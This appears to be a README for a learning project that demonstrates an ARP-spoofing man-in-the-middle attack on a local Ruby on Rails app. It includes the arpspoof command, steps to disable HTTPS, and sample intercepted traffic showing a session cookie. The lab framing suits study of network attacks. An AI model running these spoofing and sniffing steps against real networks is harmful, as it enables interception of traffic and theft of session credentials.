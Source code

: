 ## Overview
This project demonstrates a basic Man-In-The-Middle (MITM) attack using ARP spoofing to intercept HTTP traffic in a local network.

## Key Features
- ARP Spoofing with `arpspoof`
- HTTP traffic sniffing using Python
- Target app: Ruby on Rails server for meetings
- HTTPS disabled for demonstration

## Setup
1. Launch the Rails app on a LAN IP (port 3000)
2. Disable HTTPS: `config.force_ssl = false`
3. Run ARP spoofing:
   ```bash
   sudo arpspoof -i eth0 -t [Victim-IP] [Router-IP]
4. Run Python sniffer script (included in sniffer.py)
5. Simulate traffic using: curl http://[Victim-IP]:3000

 Sample output : 
 
 GET /meetings HTTP/1.1
User-Agent: curl/7.81.0
Cookie: session_id=abcd1234

## What I Learned:

Risks of using HTTP in local networks

Low-level network attack mechanics

Building sniffer tools with Python
